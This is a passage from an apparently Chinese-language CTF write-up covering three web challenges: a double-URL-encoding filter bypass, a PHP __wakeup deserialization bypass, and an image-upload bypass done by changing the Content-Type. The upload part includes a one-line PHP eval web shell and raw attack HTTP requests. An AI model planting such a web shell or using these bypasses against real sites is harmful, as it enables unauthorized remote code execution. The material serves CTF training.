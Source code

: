 对id参数两次URLENCODE

```
GET /index.php?id=%2561%2564%256d%2569%256e HTTP/1.1
Host: 111.198.29.45:39608
Pragma: no-cache
Cache-Control: no-cache
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```

## 0x0F unserialize3

基础php反序列化

```php
class xctf{
public $flag = '111';
public function __wakeup(){
exit('bad requests');
}
?code=
```

因为_wakeup()会直接exit

所以传一个坏的序列化对象就能得到flag了

> 一个字符串或对象被序列化后，如果其属性被修改，则不会执行__wakeup()函数

比如

```
O:4:"xctf":2:{s:4:"flag";i:3;}
```

## 0x10 upload1

最经典的上传木马了

写个一句话脚本

```
<?php @eval($_POST[eki]);?>
```

因为只能上传图片，但是直接把content-type改了就能绕过了

```
POST /index.php HTTP/1.1
Host: 111.198.29.45:58220
Content-Length: 212
Pragma: no-cache
Cache-Control: no-cache
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
Origin: http://111.198.29.45:58220
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryuzacUTUZndq8dQSe
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://111.198.29.45:58220/index.php
```
